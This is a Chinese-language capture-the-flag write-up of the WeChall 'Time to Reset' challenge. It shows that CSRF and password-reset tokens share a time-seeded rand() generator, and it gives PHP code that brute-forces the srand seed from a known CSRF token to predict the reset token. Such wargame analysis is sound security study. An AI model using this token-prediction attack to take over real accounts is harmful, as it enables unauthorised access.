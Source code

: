 ```yaml
---
title: Time to Reset
author: rk700
layout: post
categories:
  - writeup
tags:
  - PHP
  - wechall
---
```

[http://www.wechall.net/challenge/time\_to\_reset/index.php][1]  
最初的想法还是和注入有关，试了几次发现邮件地址不能包含特殊字符……

再从头开始看代码，发现了不自然的地方：  
提交email的表格里有CSRF的token，感觉似乎在见过的题目里并不常见；其实这也还说得过去，但是token的生成方式太可疑了，用的是和reset token同样的函数；更可疑的是，CSRF token只是生成了，并没有任何对其的检查来防范CSRF。所以这个是用来让我们暴力srand的seed的

首先生成32位的CSRF token，然后是16位的rest token。于是我们可以暴力破解，而`time()`的值可以从RFI那题里得到

下面是用来破解的代码, `ttr_random`函数就直接用题里的代码

{% highlight php %}
<?php
function ttr_random($len, $alpha='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789')
{
    $alphalen = strlen($alpha) - 1;
    $key = '';
    for($i = 0; $i < $len; $i++)
    {
        $key .= $alpha[rand(0, $alphalen)];
    }
    return $key;
}

$time=1403111639;
for($i=0; $i<255; $i++) {
    srand($time+$i);
    $csrf=ttr_random(32);
    $real='BLQChCcpFPZoACf9VpoeKEes4k2BpeDR';
    if($csrf === $real) {
        echo ttr_random(16).PHP_EOL;
    }
}
?>
{% endhighlight %}

 [1]: http://www.wechall.net/challenge/time_to_reset/index.php